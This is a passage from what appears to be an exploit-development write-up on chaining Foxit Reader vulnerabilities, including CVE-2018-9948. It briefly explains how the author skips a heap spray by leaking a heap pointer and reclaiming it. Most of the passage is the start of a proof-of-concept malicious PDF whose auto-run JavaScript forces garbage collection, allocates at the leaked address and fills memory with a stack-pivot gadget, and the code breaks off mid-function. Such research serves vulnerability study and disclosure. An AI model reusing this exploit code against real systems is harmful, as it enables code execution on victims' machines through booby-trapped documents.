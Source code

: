 <p class="cn" markdown="1">At this point (get it, point?) there was a few different ways we could chain the vulnerabilities. What we need to do now is get some data we control into memory at a known address. Traditionally, this is with a heap spray and a predictable address that we can spray at. However, after pondering a little more it occured to me that we can avoid a heap spray entirely.</p>

<p class="cn" markdown="1">What I had to do was leak a heap chunk pointer from the text annotation which was (ab)used for the uninitialized TypedArray. Then, reclaim that memory with a TypeArray, setting its contents to a stack pivot and setting the reclaimed object's fake vtable to this leaked address, thus avoiding a heap spray. Surprisingly, this worked with 100% success rate.</p>

### poc.pdf

```JavaScript
%PDF 
1 0 obj
<</Pages 1 0 R /OpenAction 2 0 R>> 
2 0 obj
<</S /JavaScript /JS (

var heap_ptr   = 0;
var foxit_base = 0;
var pwn_array  = [];

function gc() {
    /*
        This is a simple garbage collector, written by the notorious Saelo
        Greetz, mi amigo.
    */
    const maxMallocBytes = 128 * 0x100000;
    for (var i = 0; i < 3; i++) {
        var x = new ArrayBuffer(maxMallocBytes);
    }
}

function alloc_at_leak(){
    /*
        This is the function that allocates at the leaked address
    */
    for (var i = 0; i < 0x64; i++){
        pwn_array[i] = new Int32Array(new ArrayBuffer(0x40));
    }
}

function control_memory(){
    /*
        This is the function that fills the memory address that we leaked
    */
    for (var i = 0; i < 0x64; i++){
        for (var j = 0; j < pwn_array[i].length; j++){
            pwn_array[i][j] = foxit_base + 0x01a7ee23; // push ecx; pop esp; pop ebp; ret 4
        }
    }
}

function leak_vtable(){
    /*
        Foxit Reader Typed Array Uninitialized Pointer Information Disclosure Vulnerability
        ZDI-CAN-5380 / ZDI-18-332 / CVE-2018-9948
        Found by: bit from meepwn team
    */

    // alloc
    var a = this.addAnnot({type: "Text"});

```

[docker]: https://www.docker.com/docker-windows
[ysoserial.net]: https://github.com/pwntester/ysoserial.net
[@tiraniddo's]: https://twitter.com/tiraniddo